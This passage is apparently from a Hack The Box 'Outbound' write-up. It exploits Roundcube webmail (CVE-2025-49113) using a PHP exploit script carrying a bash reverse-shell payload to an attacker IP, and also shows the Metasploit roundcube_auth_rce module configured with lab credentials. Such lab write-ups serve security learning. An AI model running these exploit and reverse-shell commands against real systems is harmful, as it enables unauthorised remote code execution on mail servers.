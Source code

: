 - first run netcat listener
```bash
netcat -lvnp 4444
```
**Command**
```bash
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.112/4444 0>&1"'
```
- Access reverse shell as `www-data`
```bash
export TERM=xterm
```
### Metasploit Method
```bash
msfconsole -q
msf6 > search roundcube
msf6 > use 1
```
![](<./attachments/Outbound-4.png>)
**Configure exploit**
```bash
msf6 exploit(multi/http/roundcube_auth_rce_cve_2025_49113) > options
set PASSWORD LhKL1o9Nm3X2
set RHOSTS 10.10.11.77
set TARGETURI http://mail.outbound.htb/?_task=mail&_mbox=INBOX
set USERNAME tyler
set VHOST mail.outbound.htb
set LHOST 10.10.14.112
```

```sh
meterpreter > shell
#get useable shell
script /dev/null -c bash
id
```
![](<./attachments/Outbound-5.png>)

---